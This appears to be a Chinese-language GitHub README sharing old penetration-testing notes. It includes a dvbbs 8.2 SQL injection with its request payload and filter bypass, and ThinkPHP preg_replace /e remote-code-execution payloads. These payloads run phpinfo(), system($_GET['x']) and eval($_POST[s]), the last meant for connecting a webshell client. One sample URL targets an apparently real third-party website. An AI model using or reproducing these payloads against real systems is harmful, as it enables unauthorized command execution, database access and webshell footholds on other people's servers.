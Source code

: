 # Permeable
很早以前收集的渗透资料，现在分享一下
点个小星星呗～


分享请注明来源～
https://github.com/w1109790800/Permeable


下面是几个文件的具体内容:
dvbbs 8.2 SQL注射漏洞分析

[dvbbs 8.2 SQL注射漏洞分析 全文]漏洞公告:http://seclists.org/bugtraq/2008/May/0330.html

利用方式:一个典型的sql注射漏洞,按照公告里说的用

password=123123&codestr=71&CookieDate=2&userhidden=2&comeurl=index.asp&submit=%u7ACB%u5373%u767B%u5F55&ajaxPost=1&am 

漏洞分析:动网在asp领域也算一个比较元老的程序,这次在8.2新版里有一个低级的错误.漏洞代码在login.asp 118行左右 

...... 

username=trim(Dvbbs.CheckStr(request("username"))) 

If ajaxPro Then username = unescape(username) 

...... 

取得的username是先经过检查然后再unescape解码,导致用urlencode模式就可以饶过任何检查,和php的urldecode导致的注射很类似,譬如用%2527就可以提交’过去了. 




ThinkPHP 漏洞

2.0版本 /ThinkPHP/Lib/Think/Util/Dispatcher.class.php

2.1版本/ThinkPHP/Lib/Core/Dispatcher.class.php

搜索preg_replace 有一段替换使用了/e模式, 而且thinkphp底层没有提供参数的过滤， 这边就直接崩溃了。

测试代码

/index.php/Module/Action/Param/${@phpinfo()}

http://www.js.10086.cn/wxcs/ppo/YC/index.php/Public/MedInsurance/1/%7B$%7Bphpinfo()%7D%7D

/admin//index.php/public/login

去掉login 版本信息出来

最近thinkphp框架爆出了一个任意代码执行漏洞，其威胁程序相当的高,漏洞利用方法如下：

index.php/module/aciton/param1/${@print(THINK_VERSION)}index.php

/module/aciton/param1/${@function_all()}

其中function_all代表任何函数，

比如:index.php/module/aciton/param1/${@phpinfo()}

获取服务器的系统配置信息等。

index.php/module/action/param1/{${system($_GET['x'])}}?x=ls -al

列出网站文件列表

index.php/module/action/param1/{${eval($_POST[s])}}

直接执行一句话代码，用菜刀直接连接.

